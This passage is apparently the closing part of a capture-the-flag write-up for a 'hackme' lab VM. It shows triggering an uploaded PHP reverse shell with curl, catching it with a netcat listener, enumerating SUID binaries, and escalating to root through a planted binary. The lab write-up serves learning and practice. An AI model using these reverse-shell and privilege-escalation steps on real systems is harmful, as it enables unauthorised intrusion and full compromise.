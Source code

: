 We start a netcat listener and execute the following curl command which will interpret our php reverse shell.

```bash
root@kali:~$ curl http://192.168.179.186/uploads/z.php
```

We have obtained a shell with low privileges.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.186] 55592
script -qc /bin/bash /dev/null
www-data@hackme:/var/www/html/uploads$ 
```

Enumerating the SUID binaries an unusual file was found in the legacy home directory.

```bash
www-data@hackme:/var/www/html$ find / -perm -u=s -type f -exec ls -la {} \; 2>/dev/null
...
-rwsr--r-x 1 root root 8472 Mar 26  2019 /home/legacy/touchmenot
...
```

## Privilege Escalation
### SUID Binary

When executing the **/home/legacy/touchmenot** binary this granted root access.

```bash
www-data@hackme:/var/www/html$ /home/legacy/touchmenot
/home/legacy/touchmenot
root@hackme:/var/www/html# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
root@hackme:/var/www/html# su -
su -
root@hackme:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@hackme:~#
```
